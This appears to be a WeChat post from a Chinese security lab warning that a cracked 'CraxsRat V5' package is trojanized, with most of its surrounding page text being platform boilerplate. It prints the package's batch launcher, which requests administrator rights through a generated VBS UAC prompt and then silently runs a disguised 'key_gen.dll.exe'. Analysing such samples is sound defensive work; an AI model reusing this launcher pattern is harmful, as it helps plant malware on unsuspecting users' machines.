 #  【勒索病毒】噗！软件有毒！老外不讲武德！欺负我伸手党+脚本小子！

利刃信安  [ 利刃信安攻防实验室 ](javascript:void\(0\);)

**利刃信安攻防实验室** ![]()

微信号 LRXAGFSYS

功能介绍
利刃信安攻防实验室是一家专注于提供网络安全解决方案的专业服务商。我们能够提供包括等保、软测试、密码评估、风险评估、渗透测试等项目合作服务。此外，我们还能够提供CISP、PTE、CISSP、PTS及其他各种网络安全证书培训考证服务。

____

___发表于_

收录于合集 #勒索病毒 2个

噗！软件有毒！老外不讲武德！欺负我伸手党+脚本小子！

![]()

![]()

![]()

![]()

![]()

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    @echo off  
    :: BatchGotAdmin:-------------------------------------REM  --> Check for permissions>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"  
    REM --> If error flag set, we do not have admin.if '%errorlevel%' NEQ '0' (    echo Requesting administrative privileges...    goto UACPrompt) else ( goto gotAdmin )  
    :UACPrompt    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"    echo UAC.ShellExecute "%~s0", "", "", "runas", 1 >> "%temp%\getadmin.vbs"  
        "%temp%\getadmin.vbs"    exit /B  
    :gotAdmin    if exist "%temp%\getadmin.vbs" ( del "%temp%\getadmin.vbs" )    pushd "%CD%"    CD /D "%~dp0":--------------------------------------set SCRIPT="%TEMP%\%RANDOM%-%RANDOM%-%RANDOM%-%RANDOM%.vbs"  
    @%~dp0"CraxsRatV5 Full Version\res\Config\key_gen.dll.exe"

  

 **阅读  10万+**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

